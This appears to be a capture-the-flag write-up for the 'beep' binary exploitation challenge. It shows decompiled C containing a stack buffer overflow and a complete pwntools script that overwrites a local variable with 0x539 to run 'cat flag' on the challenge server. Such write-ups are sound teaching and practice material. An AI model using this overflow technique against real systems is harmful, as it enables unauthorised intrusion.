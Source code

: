 ```yaml
---
description: Binary Exploitation / Pwn
---
```


# beep

> Kenneth verkar ha problem med kommunikationen till andra system han tagit över. Harriet har nämligen hittat något slags litet testprogram vars syfte verkar vara att testa att en anslutning fungerar.
>
> Testprogrammet verkar vara ganska minimalt, men även små program kan innehålla buggar...
>
> Anslut till `undutmaning-beep.chals.io:443` och testa anslutningen du också.
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> Harriet tror att det finns en buffer overflow i koden. Pröva att undersöka programmet med t.ex. `Ghidra` och `gdb` för att se ifall du kan knäcka buggen!
>
> </details>
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> `setup()`-funktionen kan ignoreras då den endast sätter en timer på utmaningen samt stänger av buffering på `stdin`/`stdout`/`stderr`.
>
> </details>

{% file src="../../.gitbook/assets/beep" %}

A simple integer variable overwrite challenge, looking into the Ghidra disassembly, the code looked like this:

```c
undefined8 main(void)

{
  undefined local_78 [108];
  int local_c;
  
  setup();
  printf("* beeeeeeeeeeeeeeeeeeeeeeeeeeep *\n> ");
  read(0,local_78,0x108);
  if (local_c == 0x539) {
    system("cat flag");
  }
  return 0;
}
```

Simple goal, I had to overwrite the compared variable with `0x539`, and guess what it translates to 1337.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Pretty much, the solution required me to find the offset to the comparison instruction using cyclic offsets, so here was the final solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'beep')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'undutmaning-beep.chals.io'
port = int(args.PORT or 443)

def start_local(argv=[], *a, **kw):
	'''Execute the target binary locally'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
	'''Connect to the process on the remote host'''
	io = connect(host, port, ssl=True, sni=host)
	if args.GDB:
		gdb.attach(io, gdbscript=gdbscript)
	return io

def start(argv=[], *a, **kw):
	'''Start the exploit against the target.'''
	if args.LOCAL:
		return start_local(argv, *a, **kw)
	else:
		return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+59
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def exploit():
	io = start()
	
	OFFSET = 108

	payload = flat(
		cyclic(OFFSET),
		0x539
	)

	io.sendlineafter(b'> ', payload)
	
	io.interactive()

if __name__ == "__main__":
	exploit()

```

Here is an example of the challenge being solved locally (ignore it saying picoCTF that's just my template fake flag:relaxed:):

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
